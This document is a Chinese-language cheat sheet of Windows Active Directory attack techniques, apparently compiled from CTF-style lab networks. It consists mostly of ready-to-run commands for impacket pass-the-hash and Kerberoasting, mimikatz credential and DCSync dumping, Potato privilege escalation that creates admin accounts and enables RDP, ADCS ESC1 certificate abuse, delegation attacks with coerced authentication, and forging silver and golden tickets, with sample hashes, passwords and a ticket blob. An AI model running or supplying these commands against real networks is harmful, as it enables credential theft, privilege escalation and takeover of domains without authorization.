## impacket-网络工具箱

见网页资料有说明书

### wmiexec-哈希传递

视情况挂proxychains代理，用mimikat抓取本地哈希，然后使用wmiexec来传递

```shell
./mimikatz.exe "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"
```

```
impacket-wmiexec  xiaorang/administrator@172.22.13.6 -hashes :6341235defdaed66fb7b682665752c9a
```

### GetUserSPNs-获取账户和主机关系

通过GetUserSPNs.py脚本查找和获取与普通用户帐户关联的服务主体名称，位置：

`C:\Users\Administrator\Desktop\工具\内网渗透\impacket-master\impacket-master\examples\`

```python
python3 GetUserSPNs.py -dc-ip 192.168.100.50 -request bj.jyj.com/jason:jason@123
```


发现服务账户为test

注意：如果发现提示`[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`错误，则说明域控时间与本机时间差异过大，由于我们在上述操作中使用**psexec**与192.168.51.33主机建立连接，则在该终端中查询域控的时间

查看时区，把win10攻击机改成相同时区。

```
tzutil /g
```


调整时区，打开cmd输入：

```
tzutil /s "Pacific Standard Time"
#Pacific Standard Time为tzutil /g查出的时区
```


把win10攻击机改成相同时间

```
net time /domain //查看域时间，横向移动的shell中执行

#win10攻击机执行
date 2022-5-31 //设置日期
time 4:21:00 //设置时间
#以实际查到的时间为准
```


成功结果如下：


- 寻找spn下的其他用户，有一个用户名称和密码，但是无法登陆时用

这里先尝试查找下域用户下的spn

```cobol
proxychains impacket-GetUserSPNs -request -dc-ip 172.22.9.7 xiaorang.lab/zhangjian:i9XDE02pLVf
```


### psexec-进行横向移动

1.

拿域内其他主机

 ```shell
python3 psexec.py ./administrator:jason@123@192.168.51.33 
 ```

2.

执行拿域控

```
PsExec.exe \\KEVIN.bj.jyj.com cmd
```

命令执行后会弹出提示框，agree即可


成功获取到KEVIN主机权限


### addcomputer-添加机器账户

addcomputer.py添加一台机器账户，位置：

`C:\Users\Administrator\Desktop\工具\内网渗透\impacket-master\impacket-master\examples\`

```python
python3 addcomputer.py -computer-name "hackcomputer$" -computer-pass 123456 -dc-ip 192.168.100.50 "bj.jyj.com/test:Password@123"
```


配置hackcomputer到PC-liming的基于资源约束的委派，在kali中执行（需要配置代理，/etc/proxychains4的最后一行的ip（win10ip）和端口）：

```python
proxychains4 python3 /root/Desktop/Tools/rbcd-attack/rbcd.py -f hackcomputer -t KEVIN -dc-ip 192.168.100.50 bj.jyj.com\\test:Password@123
-f  主机名
-t  目标主机的主机名
-dc-ip  域控地址
```


### getST-申请ticket

通过impacket套件中的getST.py申请一张ticket并且导入，模拟administrator，位置：

`C:\Users\Administrator\Desktop\工具\内网渗透\impacket-master\impacket-master\examples\`

```python
python3 getST.py -spn cifs/KEVIN.bj.jyj.com -impersonate administrator -dc-ip 192.168.100.50 bj.jyj.com/hackcomputer$:123456
```


在192.168.51.33中以管理员权限运行mimikatz执行如下命令
kerberos::ptc administrator.ccache

### smbexec和smbclient-传文件和抓hash

python3 smbexec.py bj.jyj.com/sysadmin:KJidkoljlnb#4.@192.168.100.50

查找信任域
nltest /domain_trusts



上传mimikatz到域控主机

```
python3 smbclient.py bj.jyj.com/sysadmin:KJidkoljlnb#4.@192.168.100.50
use c$
put C:\Users\Administrator\Desktop\工具\内网渗透\读取密码\mimikatz\x64\mimikatz.exe
```


使用之前的smbexec.py，获取域内所有hash，以实际为准。

```
c:\mimikatz.exe "lsadump::dcsync /domain:bj.jyj.com /all /csv" "exit"
```


## mimikatz抓取密码

```shell   
cls：       清屏
standard：  标准模块，基本命令
crypto：    加密相关模块
sekurlsa：  与证书相关的模块
kerberos：  kerberos模块
privilege： 提权相关模块
process：   进程相关模块
serivce：   服务相关模块
lsadump：   LsaDump模块
ts：        终端服务器模块
event：     事件模块
misc：      杂项模块
token：     令牌操作模块
vault：     Windows 、证书模块
minesweeper：Mine Sweeper模块
net：
dpapi：     DPAPI模块（通过API或RAW访问）[数据保护应用程序编程接口]
busylight： BusyLight Module
sysenv：    系统环境值模块
sid：       安全标识符模块
iis：       IIS XML配置模块
rpc：       mimikatz的RPC控制
sr98：      用于SR98设备和T5577目标的RF模块
rdm：       RDM（830AL）器件的射频模块
acr：       ACR模块
version：   查看版本
exit：      退出
```

**提升权限 命令：privilege::debug **

mimikatz许多功能都需要管理员权限，如果不是管理员权限不能debug
 

提取密码

```shell
读取主机密码
.mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > 1.txt

privilege::debug
sekurlsa::logonpasswords full
抓取明文密码

在windows2012以上的系统不能直接获取明文密码了，当可以搭配procdump+mimikatz获取密码。

mimikatz # log
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

#### sekurlsa模块

```shell
sekurlsa::logonpasswords

抓取用户NTLM哈希
sekurlsa::msv

加载dmp文件，并导出其中的明文密码
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords full

导出lsass.exe进程中所有的票据
sekurlsa::tickets /export
```

#### kerberos模块

```shell
列出系统中的票据
kerberos::list
kerberos::tgt

清除系统中的票据
kerberos::purge

导入票据到系统中
kerberos::ptc 票据路径
```

#### lsadump模块

```shell
在域控上执行)查看域kevin.com内指定用户root的详细信息，包括NTLM哈希等
lsadump::dcsync /domain:kevin.com /user:root

(在域控上执行)读取所有域用户的哈希
lsadump::lsa /patch

从sam.hive和system.hive文件中获得NTLM Hash
lsadump::sam /sam:sam.hive /system:system.hive

从本地SAM文件中读取密码哈希
token::elevate
lsadump::sam
```


## SweetPotato提权

Potato提权原理简单来说就是如下三条:
（1）诱使 “SYSTEM” 账户通过NTLM向控制的TCP节点进行身份验证
（2）以本地协商 “NT AUTHORITY \ SYSTEM” 账户的安全令牌进行NTLM Relay
（3）模拟刚刚协商的令牌，达到提权的目的

通过建立用户，然后远程连接

WebShell版烂土豆，上传到服务器后执行：

```
JuicyPotato.exe -p whoami
```


```shell
# 将password替换为满足强度要求的密码，否则需要改组策略关闭密码强度检查
execute -f JuicyPotato.exe -p net user admin$ password
execute -f JuicyPotato.exe -p net localgroup administrators admin$ /add
```

  ```shell
  SweetPotato.exe路径 -a "net user test qwer1234! /add"
  SweetPotato.exe路径 -a "net localgroup administrators test /add"
  SweetPotato.exe路径 -a "REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f"
  ```


## hashcat爆破


使用hashcat进行爆破

```shell
hashcat -m 13100  /root/Desktop/hash.txt /root/Desktop/Tools/fuzzDicts/passwordDict/top3000.txt --force

–m表示选择不同的加密类型，其中13100对应的是Kerberos 5 TGS-REP类型的密文
```

把凭证保存在hash.txt中，尝试hashcat破解
 看了下hash类型（hashcat -h），符合13100



## 证书服务器相关渗透

ESC1和ESC8

### ESC1

先利用[Certipy工具](https://www.freebuf.com/articles/network/318126.html)查看证书情况

```lua
proxychains certipy find -u 'zhangxia@xiaorang.lab'  -password 'MyPass2@@6' -dc-ip 172.22.9.7 -vulnerable -stdout
```

```shell
Certificate Authorities
  0
    CA Name                             : xiaorang-XIAORANG-DC-CA
    DNS Name                            : XIAORANG-DC.xiaorang.lab
    Certificate Subject                 : CN=xiaorang-XIAORANG-DC-CA, DC=xiaorang, DC=lab
    Certificate Serial Number           : 43A73F4A37050EAA4E29C0D95BC84BB5
    Certificate Validity Start          : 2023-07-14 04:33:21+00:00
    Certificate Validity End            : 2028-07-14 04:43:21+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Unknown
    Request Disposition                 : Unknown
    Enforce Encryption for Requests     : Unknown
Certificate Templates
  0
    Template Name                       : XR Manager
    Display Name                        : XR Manager
    Certificate Authorities             : xiaorang-XIAORANG-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Domain Users
                                          XIAORANG.LAB\Enterprise Admins
                                          XIAORANG.LAB\Authenticated Users
      Object Control Permissions
        Owner                           : XIAORANG.LAB\Administrator
        Write Owner Principals          : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
                                          XIAORANG.LAB\Administrator
        Write Dacl Principals           : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
                                          XIAORANG.LAB\Administrator
        Write Property Principals       : XIAORANG.LAB\Domain Admins
                                          XIAORANG.LAB\Enterprise Admins
                                          XIAORANG.LAB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'XIAORANG.LAB\\Domain Users' and 'XIAORANG.LAB\\Authenticated Users' can enroll, enrollee supplies subject and template allows client authentication
```

虽然默认也有 ESC8, 但是因为 AD DS 和 AD CS 是在同一台机器上的, 所以无法进行 NTLM Relay

下面利用 ESC1

申请 XR Manager 证书模版并伪造域管理员，得到administrator.pfx

```shell
proxychains certipy req -u 'zhangxia@xiaorang.lab' -p 'MyPass2@@6' -target 172.22.9.7 -dc-ip 172.22.9.7 -ca 'xiaorang-XIAORANG-DC-CA' -template 'XR Manager' -upn
```


利用administrator.pfx证书获取 TGT 和 NTLM Hash

```cobol
proxychains certipy auth -pfx administrator.pfx -dc-ip 172.22.9.7
```


```cobol
NTLM：2f1b57eefb2d152196836b0516abea80
```

## 获取域控权限

### 提权域控

使用powerview.ps1

```
Import-Module .powerview.ps1
Add-DomainObjectAcl -TargetIdentity 'DC=xiaorang,DC=lab' -PrincipalIdentity chenglei -Rights DCSync -Verbose
```

### 基于资源的约束委派

用RBCD打

```shell
proxychains python3 addcomputer.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -dc-host xiaorang.lab -computer-name 'TEST$' -computer-pass 'P@ssw0rd'
proxychains python3 rbcd.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -action write -delegate-to 'WIN-DC$' -delegate-from 'TEST$'
proxychains python3 getST.py xiaorang.lab/'TEST$':'P@ssw0rd' -spn cifs/WIN-DC.xiaorang.lab -impersonate Administrator -dc-ip 172.22.13.6
export KRB5CCNAME=Administrator.ccache
```


然后改/etc/hosts把DC域的ip加进去，即可无密码连上去

```shell
172.22.14.6     WIN-DC.xiaorang.lab
proxychains python3 psexec.py Administrator@WIN-DC.xiaorang.lab -k -no-pass -dc-ip 172.22.13.6
```


### 非约束委派


1. ADFind

不需要账号密码即可查询
1.查询非约束委派的主机：

    AdFind.exe -b "DC=test,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName

当samAccountType=805306368的时候，是对账号进行查询。



```shell
AdFind.exe -b "DC=XIAORANG,DC=LAB" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
```


上传Rubeus.exe 监听 TGT

Rubeus.exe monitor /interval:1 /filteruser:DC01$

要用管理员权限打开！！！不然会这样


通过前面获取到的机器账号 WIN19$ 的哈希来触发 DC01 回连

proxychains4 python3 dfscoerce.py -u "WIN19$" -hashes :5943c35371c96f19bda7b8e67d041727 -d xiaorang.lab win19 172.22.4.7

Rubeus 中成功接收到 DC01 的 TGT


将base64存入base64.txt中，解码后写入DC.kirbi（要把这个文件放到mimikatz.exe的目录下）

certutil -f -decode base64.txt DC.kirbi


请求dcsync

mimikatz.exe "kerberos::purge" "kerberos::ptt DC.kirbi" "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"


得到域管的hash

### 约束委派利用

####  使用adfind

查看域用户的sid，AdFind工具位置：

`C:\Users\Administrator\Desktop\工具\内网渗透\域内工具\AdFind\AdFind.exe`

```sh
AdFind.exe -h 192.168.100.50 -u test -up "Password@123" -b "DC=BJ,DC=jyj,DC=com" -f "objectClass=computer" mS-DS-CreatorSID
```


发现：JASON    KEVIN  通过test机器用户加入到bj.jyj.com域中

#### 使用rubeus

往下翻找到一个服务账户
 
 只有服务账户的话，可以尝试委派攻击
 这里先尝试约束委派

```shell
 .\Rubeus.exe asktgt /user:MSSQLSERVER$ /rc4:fd083835050046e3b084a7ab5ae26fec /domain:xiaorang.l ab /dc:DC.xiaorang.lab /nowrap > res.txt
```

使用rebeus来申请票据


```shell
.\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:CIFS/DC.xiaorang.lab /dc:DC.xiaorang.l
ab /ptt /ticket:doIFmjCCBZagAwIBBaEDAgEWooIEqzCCBKdhggSjMIIEn6ADAgEFoQ4bDFhJQU9SQU5HLkxBQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsM
eGlhb3JhbmcubGFio4IEYzCCBF+gAwIBEqEDAgECooIEUQSCBE213ajI6TX0W+0wh3s1HvHuOix9rk4Yzo4tkGpuZQFlOyite9fWJn95hzu9wEScZCiRfI+7
2KCOjCM23B6S+IGfjn++nt+9HBFmcx0TwGHdIkrJpbRjK2otqyOeXhAPdHgZDuWgkfP9H0/VALyBEFlgabs05dc/2SM0+wHFNLP7JKHDrZ8tYZ1zb8z+Vawx
Dsbq1d3M0ipJP2Z3DxC+05F8yGGIIFqu2y8pe2i0vl/BjRC/LOvg4XdeNW5ez8KoRfbf30Oh7JnEsW4u4AeZg5knYH5S9U/Jb3IRRMZKu9RaPOnm0uJVIMex
4hGBXGApoy3wsyQCvJiuIJ20VQ8WIUYyEfeoE9gUG6qLhTMoUpiY+3/NPOPz5ofGEG6uxiviPoZJQ6Qb6CDf8aK+vkXF+0FQ2TpKccYTvAgb95r+yBE7Z/EB
Kivr2Lv2x5W+QrMCqt14psSPExntryr1hXKE8AxTeLwm0OJd2IxVkXEmYVbtqrkrufdmrqVVW+Qu0HgOJ/zrhkONamcdTrYge6V94XDflxwHV9TjBtJrQzqX
eX25c7XLRKVHzWaklPWuO1MpzhSmbGCjPt5SNs5pAOdtvlWG4EyBH433ZbF/tD8b7aK7glMYd5yvSLi+/OxP9n6eXgINhAq7ePHu8rido9CWFqUqfXnRQlzd
6QeDlZJyD9JRxZLw7dFGO7nnRJjOLDVstUFY0cXDnAjhR+tW7/jD9FUJHoarqfrhOrF+g0gcbcoOYXCd5qLFmy7Lyz+uUitq7uFwVEBaJDW4K2rR2Nzu+UHO
/jW8xiSh/gayKpbzSp34MA5Ob0TQEww8ResiqYIiv/xQ2kGvgdR1zrJLeRa9zghSuQpQhrJK5fvEeBmAeVrs5edczUEzPlO7EetjYTmibEkiWXzbwTc4gdPN
P4wbxfsJICGlQGX/zcYUH2n/dtet8GA0MeC0rylVzudVd8uk2hpPS53Pj9zX+pTiMkEtc5xA3u+5stvoHA+ydhEkatlRysg4z2rtApTJ7EMxOo7Ruw/2IGcc
zQRaIU9aYKg4arrakN3lHhvG6FOcn1ypDPuziam6p1DT+JC88NftiWRTYlFkn94JunFT765m5tBN7YAYSOHyN5mFnkYwyC0NOpAZrtHdIeMBbHwI8w5VWOsm
ZM5vt68qlzfAzanokpdbM4E6R03QG2uYdw+G3EM4R0WsSpuCoomoouxspRjkYZ5fjx5D3kTA5JeG4POhi2DEl8JUi8wPmLiffddSRABMnk9YucZkmASRdR9+
z00QGu0aRfcsnRKwX4g+OEozZRWuCkFLcl2pA2OW2bZ3moOjysh3giZGWSwtArdHS/x9tD0klmQj4NaGna1NUamUPirbkOfLN/Tlu0HQ9qogC6voGwG5Kjid
S2DjNMjVGiGuCOJupAgwtsVxMV3mZgxU1CQnjB07mzSQU2WLmim6ZMa8GDYa7h8BOSOxLQgfcTkuOJGjgdowgdegAwIBAKKBzwSBzH2ByTCBxqCBwzCBwDCB
vaAbMBmgAwIBF6ESBBBYlmwfzeISLJiPvby2MTLpoQ4bDFhJQU9SQU5HLkxBQqIZMBegAwIBAaEQMA4bDE1TU1FMU0VSVkVSJKMHAwUAQOEAAKURGA8yMDIz
MDExODEzMTMxMFqmERgPMjAyMzAxMTgyMzEzMTBapxEYDzIwMjMwMTI1MTMxMzEwWqgOGwxYSUFPUkFORy5MQUKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHhp
YW9yYW5nLmxhYg==
```

利用白银票据访问文件

这时候我们就可以直接访问域控的文件了
 盲猜一手，路径和这台数据库服务器的flag位置一样

```
type \\DC.xiaorang.lab\C$\Users\Administrator\flag\flag04.txt
```


### 制作白银票据

白银票据(Silver Tickets)是指伪造服务票据(ST)，只能用来访问特定的服务。通过kerberos的认证原理得知ST是由TGS颁发的，使用服务账号的密码hash加密，所以在伪造银票的时候需要知道服务的密码hash。而白银票据会利用服务账号的hash伪造相应服务的ST，例如：LDAP、MSSQL、WinRM、DNS、CIFS 等，范围有限，只能获取对应服务权限。并且拥有域控权限才能读取域控制器上服务账号的hash，严格意义上，白银票据也是一个后门用来做权限维持，这不同于黄金票据利用需要使用 krbtgt 账号的密码的hash，因此更加隐蔽。

**伪造白银票据需要具有以下条件：**

- 域名
- 域 SID
- 目标服务器的 FQDN
- 可利用的服务
- 服务账号的NTLM
- 要伪造的用户名

**服务列表对应清单**
 

利用noPac获取的就是白银票据

#### 获取cifs服务权限
`CIFS`为windows的文件共享服务

- 登录域控，获取域控的机器账号hash
   使用mimikatz抓取域控上的机器账号hash
   (ps：由域控的机器账号hash加密形成对应服务的ST凭证)

```shell
privilege::debug 
sekurlsa::logonpasswords
```


查看域的sid:
 

- 注入票据
   普通用户登录域内主机，无法访问域控的cifs文件共享服务，需要认证：
   

伪造票据并注入内存

```shell
# kerberos::golden /domain:域名 /sid:域 SID /target:FQDN /rc4:服务账号的哈希 /service:可利用的服务 /user:要伪造的用户名 /ptt
kerberos::golden /domain:qaq.com /sid:S-1-5-21-476141730-3945430675-3953811658 /target:test.qaq.com /rc4:eb62a802b02097cc0ec0de4c0815ac10 /service:cifs /user:administrator /ptt
```


成功后，即可以访问域控的文件共享服务


注入`HOST` 和`RPCSS`服务加密的票据，执行命令


```
#authority参数指定使用kerberos认证，格式域名\主机，不指定会使用默认的
wmic /authority:"kerberos:qaq\test" /node:test process call create "whoami"
```

#### 获取ldap服务权限dcsync

无法导出hash
 

注入ldap服务加密的票据

```shell
kerberos::golden /domain:qaq.com /sid:S-1-5-21-476141730-3945430675-3953811658 /target:test.qaq.com /rc4:eb62a802b02097cc0ec0de4c0815ac10 /service:LDAP  /user:administrator /ptt
```


DCSync是mimikatz的一个功能，能够模拟域控制器并从域控制器导出帐户密码hash

```shell
#导出krbtgt用户的hash
lsadump::dcsync /dc:test.qaq.com /domain:qaq.com /user:krbtgt
#导出所有域控上所有账号的hash
lsadump::dcsync /domain:qaq.com /all /csv
```


得到hash之后可以解密，或者进行hash传递

### 制作黄金票据

**伪造黄金凭据需要具备下面条件：**

1. krbtgt用户的hash
2. 域名称
3. 域的sid值
4. 要伪造的用户名

Kerberos黄金票据是有效的TGT Kerberos票据，因为它是由[域Kerberos帐户（KRBTGT）](http://adsecurity.org/?p=483)加密和签名的 。TGT仅用于向域控制器上的KDC服务证明用户已被其他域控制器认证。TGT被KRBTGT密码散列加密并且可以被域中的任何KDC服务解密的。

黄金票据的条件要求：
 1.域名称[AD PowerShell模块：（Get-ADDomain）.DNSRoot] 
 2.域的SID 值[AD PowerShell模块：（Get-ADDomain）.DomainSID.Value] 
 3.域的KRBTGT账户NTLM密码哈希
 4.伪造用户名

一旦攻击者拥有管理员访问域控制器的权限，就可以使用Mimikatz来提取KRBTGT帐户密码哈希值。

**一旦一个域名受到威胁。黄金门票现在可以用来微机AD森林中的任何域**


#### SIDHistory版跨域黄金票据

主要用于拿下一个域控后，拿另一个域控

krbtgt上面操作中已获取，目前只需要获取两个域的sid即可

获取域的sid

```
c:\mimikatz.exe "privilege::debug"  "lsadump::trust /patch" "exit"

#Tips：
c:\mimikatz.exe    启动mimikatz
privilege::debug   提升权限
lsadump::trust /patch    指向分别为 域林和子域的SID以及双方的信任密钥
```


获取到的域的sid

```
Current domain: BJ.JYJ.COM (BJ / S-1-5-21-2605018351-88321934-434902429)

Domain: JYJ.COM (JYJ / S-1-5-21-1075525281-2553060978-2115401271)
```

通过使用mimikatz ptt，即可跨到jyj /ptt

```
c:\mimikatz.exe "kerberos::golden /domain:BJ.JYJ.COM sids:S-1-5-21-2605018351-88321934-434902429 /sid:S-1-5-21-1075525281-2553060978-2115401271  /krbtgt:9c5b864fb3691b21e29e289027d26342 /user:jyj /ptt" exit 

 domain:当前子域，sid:当前子域SID，sids:信任域的SID，也就是父域，krbtgt:当前域的krbtgt的值，user是trust account，不确定可以使用dcsync在看下。
```


建立 IPC 连接

随后net use等方式拿下jyj域的域控DC

```sh
net use \\dc1.jyj.com\c$
dir \\dc1.jyj.com\c$
```


后续可通过计划任务上线

#### 黄金票据域控权限维持1

利用msf上线域内一台主机之后提权，获得获取到域内krbtgt帐户的SID和HASH，就可以访问域内所有用户了

利用DCSync

```
load kiwi
```

导出域内所有用户Hash

```
kiwi_cmd lsadump::dcsync /domain:xiaorang.lab /all /csv
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502     krbtgt  fb812eea13a18b7fcdb8e6d67ddc205b        514
1106    Marcus  e07510a4284b3c97c8e7dee970918c5c        512
1107    Charles f6a9881cd5ae709abb4ac9ab87f24617        512
500     Administrator   10cf89a850fb1cdbe6bb432b859164c8        512
1000    DC01$   d75bd2d4524fcaee3946250f675aebf7        532480
1108    XIAORANG-WIN7$  8b7dea43bed4b560504e925f0f1b5efd        4096
1104    XIAORANG-OA01$  fd2dbb99c526e5969d540669a099d158        4096
```

生成黄金票据

```
kiwi_cmd lsadump::dcsync /domain:xiaorang.lab /user:krbtgt
SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 2022/6/5 20:40:39
Object Security ID   : S-1-5-21-314492864-3856862959-4045974917-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: fb812eea13a18b7fcdb8e6d67ddc205b
    ntlm- 0: fb812eea13a18b7fcdb8e6d67ddc205b
    lm  - 0: c4f45322c850c77aecb3aa71c2e44c1e
```

导入黄金票据

```
kiwi_cmd kerberos::golden /user:administrator /domain:xiaorang.lab /sid:S-1-5-21-314492864-3856862959-4045974917-502 /krbtgt:fb812eea13a18b7fcdb8e6d67ddc205b /ptt
```

wmiexec哈希传递

```
wmiexec.exe -hashes :10cf89a850fb1cdbe6bb432b859164c8 xiaorang/administrator@172.22.1.2 "type Users\Administrator\flag\flag03.txt"
```

#### 黄金票据域控权限维持2

使用mimikatz伪造黄金票据

- 登录域控制器，使用`mimikatz`dump `krbtgt`用户的hash值，获取域sid

```
privilege::debug 
lsadump::lsa /patch
```


- 伪造adminnistrator域管用户的TGT。既：伪造由krbtgt hash加密的adminnistrator用户凭证，TGT和ST不同之处就是，TGT是由krbtgt服务账户加密并进行验证的票据凭证，ST是由对应的服务账户加密并进行验证的票据凭证。krbtgt的票据有效性长，其他服务账户票据时间短

使用krbtgt的ntlm伪造tgt

```shell
#kerberos::golden /user:用户 /domain:域名 /sid:域的sid /krbtgt:krbtgt的ntlm /ticket:gold.kirbi
kerberos::golden /user:administrator /domain:qaq.com /sid:S-1-5-21-476141730-3945430675-3953811658 /krbtgt:a61897c242cd389e6a6ba05b7b99fcda   /ticket:gold.kirbi
```

成功后会生成tgt文件：gold.kirbi


注入TGT凭证
 为了防止发生异常可以先清空机器上的票据

双击`mimikatz.exe`文件运行工具，清空凭证：

```
kerberos::purge
```


导入黄金票据

```shell
kerberos::ptt gold.kirbi
```


### 票据传递（Pass the Ticket，PTT）

主要指

漏洞伪造票据

利用黄金票据

利用白银票据


### 哈希传递（pass the hash，PTH）

没有管理员，但是有与管理的ntlm

我们在Windows 7拿到了域管理员testuser的NTLM，但是没有本地管理员的权限。要使用kekeo才可以申请TGT，mimikatz找不到这个功能，但是mimikatz有ptt的功能。

下面使用[kekeo](https://link.zhihu.com/?target=https%3A//github.com/gentilkiwi/kekeo)进行操作：

```powershell
kekeo.exe "tgt::ask /user:testuser /domain:hack.lab /ntlm:f3a0acba8bcfb8a0896281bbfcb793ed" exit
```


执行后会在当前的目录上生成一个后缀为`kirbi`的票据文件，我们需要把该票据导入到内存中才可以生效。

先使用系统自带清理票据的命令，要不然会出现错误：

```text
klist purge
```

将票据文件导入内存有两种方法，都是不需要管理员权限

kekeo：

```powershell
kekeo "kerberos::ptt TGT_testuser@HACK.LAB_krbtgt~hack.lab@HACK.LAB.kirbi" exit
```

Mimikatz:

```powershell
kerberos::ptt C:\Users\lucky\Desktop\TGT_testuser@HACK.LAB_krbtgt~hack.lab@HACK.LAB.kirbi
```

导入后我们再尝试远程访问域控的文件内容：


前提：需要管理员权限

查看本地开启的共享：


建立IPC连接：

```
net use \\192.168.3.200\ipc$ "mygod.dc123" /user:"Administrator"
```



将目标C盘映射到本地H盘：

```
net use h: \\192.168.3.200\c$
```


打开文件夹，可以看到挂载了目标的磁盘：


发现flag：


```
flag{B719-1F1D-4CE7-E019-2E6B-EDAC-CB35-87FB}
```

回到`Win10攻击机`，进入`C:\Users\Administrator\Desktop\工具\内网渗透\横向移动\PSTOOLS`目录，将`PsExec64.exe`文件上传：


执行命令：

```
cd Desktop

PsExec64.exe -accepteula \\192.168.3.200 -s cmd.exe
```


获取到system权限：


**哈希传递,拿下域控制器:**
 由于获得了域管理员账户,直接通过哈希传递就能拿下域控，crackmapexec来进行哈希传递PTH

```
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```

## Rubeus使用

https://blog.csdn.net/qq_18811919/article/details/129222218

- Rubeus简介

```shell
Rubeus是由国外安全研究院harmj0y用C#编写的针对Kerberos协议进行
攻击的工具,可以发起Kerberos请求,并将请求票据导入内存中,Rebeus提供了
大量的用于Kerberos攻击的功能,比如TGT请求/ST请求/AS-REP Roasting攻击/
Kerberoasting攻击/委派攻击/黄金票据/白银票据等。
```


域内存在 DFscoerce 和 petitpotam，但是不存在CVE-2019-1040，因此放弃 DFscoerce，优先使用petitpotam

## evil-winrm提取用户部分权限

有文档说明手册

查看用户权限

    whoami /priv
    net user zhangshuai

账户属于 Remote Desktop Users 和 Remote Management Users 组, 因此可以evil-winrm上去


